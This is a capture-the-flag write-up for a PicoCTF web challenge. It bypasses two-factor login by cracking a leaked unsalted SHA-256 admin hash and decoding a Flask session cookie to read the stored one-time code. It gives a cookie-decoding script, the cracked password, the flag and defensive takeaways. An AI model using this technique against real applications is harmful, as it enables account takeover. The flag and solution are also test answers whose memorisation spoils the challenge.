





# [No FA] - PicoCTF [2026]

**Category:** Web Exploitation 
**Difficulty:** Medium

---

## Description

Seems like some data has been leaked! Can you get the flag? You can get started here to find the flag!
The application code can be found here.
The leaked data can be found here.

--- 

## Analysis

First, I read the code in `app.py` and examined the database. I found that the database includes an account with the username **admin**.

The password is hashed with **SHA-256** — so I planned to look it up on **crackstation.net**.

**Flag condition — why we need the `admin` account:**

Looking at the `/` route in `app.py`, the flag is only revealed when the session username is exactly `admin`:

```python
flag = "No flag for you!!"
if session.get('username') == 'admin':
    flag = os.getenv('FLAG')
```

So our goal is clear: get a fully authenticated session as `admin`.

**OTP mechanism — how the two-factor auth works:**

After a successful password login, the app checks whether the user has `two_fa` enabled. For the admin account, 2FA is on, so the app:

1. Generates a random 4-digit OTP: `otp = str(random.randint(1000, 9999))`
2. Stores it **directly inside the Flask session cookie**: `session['otp_secret'] = otp`
3. Stores the timestamp: `session['otp_timestamp'] = time.time()`
4. Sets `session['logged'] = 'false'` to block access until OTP is verified

The OTP is then supposed to be sent to the user's email — but crucially, it is **also stored in the client-side session cookie**. Flask session cookies are **signed but not encrypted**, meaning the contents can be decoded by anyone who has the cookie value. This is the core vulnerability.

The OTP validation at `/two_fa`:
```python
if stored_otp and otp == stored_otp and (time.time() - timestamp) < 120:
    session['logged'] = 'true'
```
The OTP expires after **120 seconds**, but since we can read it directly from the cookie, timing is not an issue.

---

## Solutions

**Step 1 — Crack the admin password**

Take the SHA-256 hash of admin from the leaked database and submit it to [crackstation.net](https://crackstation.net). The result reveals:
```
admin password: apple@123
```


**Step 2 — Log in as admin and capture the session cookie**

Log in with `admin / apple@123`. Because 2FA is enabled, the app redirects to the OTP page and sets a session cookie. At this point, the cookie already contains `otp_secret`.

Open **DevTools → Application → Cookies** and copy the value of the `session` cookie.


**Step 3 — Decode the Flask session cookie to extract the OTP**

Flask session cookies are Base64-encoded JSON signed with HMAC — but the payload is readable without the secret key. Use this Python script to decode and extract the OTP:

```python
import base64
import json
import sys
import zlib

def decode_flask_payload(segment):
    compressed = segment.startswith('.')
    if compressed:
        segment = segment[1:]
    segment += '=' * (-len(segment) % 4)
    data = base64.urlsafe_b64decode(segment)
    if compressed:
        data = zlib.decompress(data)
    return data.decode('utf-8')


def decode_flask_cookie(cookie):
    compressed = cookie.startswith('.')
    payload = cookie.lstrip('.').split('.')[0]
    return decode_flask_payload(('.' if compressed else '') + payload)
if __name__ == '__main__':
    cookie = sys.argv[1] if len(sys.argv) > 1 else input('Cookie: ').strip()
    out = decode_flask_cookie(cookie)
    try:
        out = json.dumps(json.loads(out), indent=2, ensure_ascii=False)
    except ValueError:
        pass
    print(out)
```

The script prints the OTP stored inside the cookie, e.g. `OTP: 6413`.

**Step 4 — Submit the OTP and get the flag**

Enter the extracted OTP on the 2FA page. The session is promoted to `logged = true` and the home page renders the real flag.



---

## Flag!

academy{n0_r4t3_n0_4uth_24652f75}

---

## Takeaways

- **Flask session cookies are signed, not encrypted.** The payload is plain JSON encoded in Base64 — anyone with the cookie can decode and read its contents. Never store sensitive data (like OTP secrets) in a Flask session cookie.

- **OTP stored client-side = no 2FA.** Putting `otp_secret` into `session` and sending the cookie to the browser defeats the entire purpose of two-factor authentication. The secret must stay server-side (e.g., in a database or server memory).

- **SHA-256 alone is not safe for passwords.** Without a salt and a slow hashing algorithm (bcrypt, argon2), SHA-256 hashes of common passwords are trivially crackable via lookup tables like CrackStation.

- **CrackStation** — a free online hash lookup service that searches a database of billions of precomputed hashes. Effective against unsalted MD5, SHA-1, and SHA-256 hashes of common passwords.